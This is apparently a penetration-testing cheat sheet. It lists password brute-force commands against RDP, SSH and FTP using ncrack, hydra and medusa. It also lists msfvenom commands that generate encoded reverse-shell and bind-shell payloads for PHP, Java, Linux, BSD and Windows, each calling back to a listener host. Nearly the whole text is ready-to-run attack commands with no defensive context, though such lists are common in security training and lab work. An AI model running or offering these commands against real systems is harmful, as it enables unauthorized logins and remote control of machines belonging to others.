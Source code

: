 RDP user with password list

ncrack -vv --user offsec -P passwords rdp://10.10.10.10

SSH user with password list

hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22

FTP user with password list

medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp

MSFVenom Payloads

# PHP reverse shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

# Java WAR reverse shell  
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

# Linux bind shell  
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

# Linux C reverse shell  
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c

# Windows non staged reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe

# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe

# Windows Python reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

# Windows ASP reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
